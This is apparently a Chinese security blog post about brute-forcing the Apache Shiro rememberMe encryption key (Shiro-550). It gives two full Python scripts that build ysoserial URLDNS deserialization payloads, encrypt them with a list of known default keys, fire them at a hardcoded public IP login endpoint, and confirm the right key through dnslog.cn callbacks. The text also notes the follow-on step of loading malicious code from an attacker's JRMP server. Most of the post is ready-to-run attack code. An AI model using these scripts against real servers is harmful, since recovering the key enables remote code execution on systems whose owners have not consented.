


## Shiro550爆破key的方式

服务端的反序列化逻辑： 接受 rememberMe cookie -> base64 解码 -> AES 解密 -> 触发反序列化

触发反序列化之后，即可控制服务器执行命令，之前复现过的利用方式是通过反序列化控制服务器进行JRMP调用，从黑客的JRMP server上加载恶意代码执行。

如果将JRMP server地址改为dnslog，反序列化成功触发后虽然不能从dnslog加载恶意代码，但是会留下解析记录。利用这一点可以判断payload是否有效，达到爆破key的效果。

脚本源码

~~~python
# -*- coding: utf-8 -*-
# @Time    : 2022/9/30 15:36
# @Author  : LuckyFuture
# @FileName: shirokeycheck.py
# @Software: PyCharm
# @Blog : https://luckyfuture.top

# 使用dnslog判断反序列化是否触发，从而爆破shiro key
import requests
import random
import time
import base64
import subprocess
from Crypto.Cipher import AES

session = requests.Session()
keylist = [
    "4AvVhmFLUs0KTA3Kprsdag==",
    "3AvVhmFLUs0KTA3Kprsdag==",
    "2AvVhdsgUs0FSA3SDFAdag==",
    "6ZmI6I2j5Y+R5aSn5ZOlAA==",
    "kPH+bIxk5D2deZiIxcaaaA==",
    "wGiHplamyXlVB11UXWol8g==",
    "cmVtZW1iZXJNZQAAAAAAAA==",
    "Z3VucwAAAAAAAAAAAAAAAA==",
    "ZnJlc2h6Y24xMjM0NTY3OA==",
    "L7RioUULEFhRyxM7a2R/Yg==",
    "RVZBTk5JR0hUTFlfV0FPVQ=="]
def getdnslog():  # 获取一个dnslog url
    try :
        ret = session.get("http://dnslog.cn/getdomain.php?t="+str(random.randint(100000,999999)),timeout=10).text
    except Exception as e:
        print("getdomain error:" + str(e))
        ret = "error"
        pass
    return ret

def getrecord(): # 查询dnslog记录
    try:
        ret = session.get("http://dnslog.cn/getrecords.php?t=" + str(random.randint(100000, 999999)), timeout=10).text
    except Exception as e:
        print("getrecords error:" + str(e))
        ret = "error"
        pass
    return ret

def genpayload(url,key): # 生成payload
    popen = subprocess.Popen([r'java', '-jar', r'ysoserial-all.jar', 'URLDNS', url],   #使用urldns链生成payload,
                             stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    mode = AES.MODE_CBC
    iv = b' ' * 16
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    target = "http://101.43.138.109:8080/doLogin"  # 目标
    vul = 0
    url = "http://"+"luckyfuture."+getdnslog() #获取dnslog url
    print("dnslog url:"+url)
    for key in keylist:
        print("[-]try CipherKey :" + key)
        payload = genpayload(url,key).decode() #遍历key,分别生成payload
        r = requests.get(target,cookies={'rememberMe': payload},timeout=10) #向目标发送payload
        time.sleep(2) #等待反序列化触发，目标回连dnslog地址
        for i in range(0,2):
            if "luckyfuture" in getrecord():  #查询dnslog的解析记录，以此判断是否触发反序列化，即是否使用了正确的key加密payload
                print("=================================\n[+]The key is:"+key)
                vul = 1
                break
        if vul:
            break
~~~

执行结果

该方法的优点是所得结果准确，URLDNS是java原生支持的，不会出现key正确而payload无效的情况。缺点在于频繁的网络请求降低了脚本的爆破速度，并且要求目标必须出网。

要想获得速度更快的爆破效果，就要分析服务器的返回报文来判断正确的key。这就需要对shiro框架代码执行过程进行调试分析了，暂时不考虑。

重构代码，使用多线程发送payload提升爆破速度

~~~python
# -*- coding: utf-8 -*-
# @Time    : 2022/9/30 15:36
# @Author  : LuckyFuture
# @FileName: shirokeycheck.py
# @Software: PyCharm
# @Blog : https://luckyfuture.top

# 使用dnslog判断反序列化是否触发，从而爆破shiro key
import requests
import random
import time
import base64
import subprocess
import threading
from Crypto.Cipher import AES

session = requests.Session()

keylist = [
    "4AvVhmFLUs0KTA3Kprsdag==",
    "3AvVhmFLUs0KTA3Kprsdag==",
    "2AvVhdsgUs0FSA3SDFAdag==",
    "6ZmI6I2j5Y+R5aSn5ZOlAA==",
    "wGiHplamyXlVB11UXWol8g==",
    "cmVtZW1iZXJNZQAAAAAAAA==",
    "Z3VucwAAAAAAAAAAAAAAAA==",
    "ZnJlc2h6Y24xMjM0NTY3OA==",
    "L7RioUULEFhRyxM7a2R/Yg==",
    "RVZBTk5JR0hUTFlfV0FPVQ==",
    "fCq+/xW488hMTCD+cmJ3aQ==",
    "WkhBTkdYSUFPSEVJX0NBVA==",
    "1QWLxg+NYmxraMoxAXu/Iw==",
    "kPH+bIxk5D2deZiIxcaaaA==",
    "WcfHGU25gNnTxTlmJMeSpw==",
    "a2VlcE9uR29pbmdBbmRGaQ==",
    "bWluZS1hc3NldC1rZXk6QQ==",
    "5aaC5qKm5oqA5pyvAAAAAA==",
    "kPH+bIxk5D2deZiIxcaaaA==",
    "r0e3c16IdVkouZgk1TKVMg==",
    "ZUdsaGJuSmxibVI2ZHc9PQ==",
    "U3ByaW5nQmxhZGUAAAAAAA==",
    ]
keydict= {} #key字典 多线程优化使用
num = 100
for key in keylist:
    keydict[num] = key
    num += 1

def getdnslog():  # 获取一个dnslog url
    try :
        ret = session.get("http://dnslog.cn/getdomain.php?t="+str(random.randint(100000,999999)),timeout=10).text
    except Exception as e:
        print("getdomain error:" + str(e))
        ret = "error"
        pass
    return ret

def getrecord(): # 查询dnslog记录
    try:
        ret = session.get("http://dnslog.cn/getrecords.php?t=" + str(random.randint(100000, 999999)), timeout=10).text
    except Exception as e:
        print("getrecords error:" + str(e))
        ret = "error"
        pass
    return ret

def genpayload(url,key): # 生成payload
    popen = subprocess.Popen([r'java', '-jar', r'ysoserial-all.jar', 'URLDNS', url],   #使用urldns链生成payload,
                             stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    mode = AES.MODE_CBC
    iv = b' ' * 16
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

def check(target,payload):
    r = requests.get(target, cookies={'rememberMe': payload}, timeout=10)  # 向目标发送payload

if __name__ == '__main__':
    target = "http://101.43.138.109:8080/doLogin"  # 目标
    vul = 0
    dnsurl = getdnslog() # 获取dnslog url
    print("dnslog url:"+dnsurl)
    for (num,key) in keydict.items():
        url = "http://" + str(num) + "." + dnsurl
        print("[-]try CipherKey :" + key)
        payload = genpayload(url,key).decode() #遍历key,分别生成payload
        T = threading.Thread(target=check,args=(target,payload))
        T.start()

    time.sleep(5) #等待反序列化触发，目标回连dnslog地址

    for i in range(0,3):
        recordlist = eval(str(getrecord()))
        if len(recordlist) == 0:
            continue
        for l in recordlist:
            keyflag = int(l[0].split(".")[0])
            if keyflag in keydict.keys():
                vul = 1
                print("=================================\n[+]The key is:"+keydict[keyflag])
                break
        if vul:
            break

    if vul:
        pass
    else:
        print("no exist correct key")
~~~

